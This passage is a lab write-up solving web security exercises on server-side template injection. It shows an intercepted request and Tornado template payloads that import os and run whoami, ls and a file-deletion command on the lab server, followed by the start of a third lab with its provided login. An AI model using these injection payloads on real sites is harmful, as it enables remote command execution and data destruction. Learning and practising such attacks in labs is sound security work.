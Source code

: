 The name change happens with the request 

```http
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.first_name&csrf=nhoN8qfTAGSaHo7vCwDsuh7TdZpWTM7S
```

Now, let's try some `Tornado` syntax here found on `Hacktricks` and see if the vulnerability lies here.

I modified the request body to:

`blog-post-author-display={{7*7}}...`

And I see now at the comment section that my name is shown as:

![[Pasted image 20250126163855.png]]

This means that I found a vulnerability here.

I modify the syntax to put the system command `whoami`:

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('whoami')}}`

And the result is:

![[Pasted image 20250126165426.png]]

So I see the name of `carlos` there, let's see the files in the current directory.

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('ls')}}`

![[Pasted image 20250126165518.png]]

So, now let's just delete the file: `blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm%20+morale.txt')}}`

The file is deleted and the lab is solved.

------------

### Lab.3 Server-Side Template Injection using Documentations

**Description**

The goal of the lab is to identify the template engine and then use the documentation to work out how to execute arbitrary code. Afterwards the main goal is to delete `morale.txt` from the Carlos's home directory

`content-manager:C0nt3ntM4n4g3r` are credentials that can be used to login.

**Solution**

I login with the given credentials, then I go to Home. After I select an article, I see the option to `Edit Template`.

![[Pasted image 20250126170634.png]]
